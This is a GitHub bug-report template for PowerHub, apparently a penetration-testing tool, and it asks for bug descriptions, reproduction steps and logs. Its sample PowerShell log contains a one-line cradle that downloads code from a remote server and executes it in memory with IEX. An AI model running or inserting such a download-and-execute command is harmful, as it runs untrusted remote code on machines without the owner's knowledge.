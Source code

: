```yaml
---
name: Bug report
about: Create a report to help us improve
title: ''
labels: bug
assignees: ''

---
```


Thanks for reporting a bug! To make the report more useful, please fill out the following fields and delete this line. Also, [read this](https://adrianvollmer.github.io/PowerHub/latest/contrib.html).

**Describe the bug**
A clear and concise description of what the bug is.

**To Reproduce**
Steps to reproduce the behavior:
1. Go to '...'
2. Click on '....'
3. Scroll down to '....'
4. See error

**Expected behavior**
A clear and concise description of what you expected to happen.

**Logs (please complete the following information):**
Python log:
```
$ powerhub -d 192.168.1.1
I 2023-02-27 21:54:20 dhkex.py:19 Generating new Diffie-Hellman parameters
D 2023-02-27 21:54:20 tools.py:106 Loaded secret key: S0H5CrNL1aWshJnCMwnCZ6Cg9HlTztuO
I 2023-02-27 21:54:20 modules.py:52 Importing modules...
[...]
```

PowerShell log:
```
PS C:\Users\avollmer> Pl=New-Object Net.WebClient;IEX $Pl.DownloadString('http://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
[...]
```

**Python versions (please complete the following information):**
 - Output of `python --version`:
 - Output of `pip freeze`:
   ```
   $pip freeze
   [...]
   ```

**PowerShell versions (please complete the following information):**
 - Output of `$PSVersionTable`

**Additional context**
Add any other context about the problem here.
